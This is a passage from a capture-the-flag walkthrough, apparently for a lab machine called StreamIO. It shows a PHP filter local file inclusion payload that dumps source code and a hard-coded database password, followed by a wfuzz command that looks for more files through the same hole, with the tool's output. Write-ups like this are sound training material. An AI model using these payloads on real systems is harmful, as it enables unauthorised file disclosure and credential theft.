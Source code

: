 ![](images/image04.png)

Using the PHP filter trick we can extract some of the web pages source code. The important parts here are in the source code of:
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```php
...[SNIP]...

$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

...[SNIP]...
```

So we have the database username and password, but how to use it? After getting stuck here for a while I decided to fuzz the file name in the LFI to see if I can get more source code:
```bash
$ wfuzz --hh 1712 -b PHPSESSID=luoqop4jub9vubjbl5ngnblrb1 -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt 'https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=FUZZ.php'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=FUZZ.php
Total requests: 3132

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                 
=====================================================================

000000908:   200        49 L     137 W      4916 Ch     "Index"                                                                                 
000000909:   200        49 L     137 W      4916 Ch     "index"                                                                                 
000001118:   200        49 L     137 W      5788 Ch     "master"
```
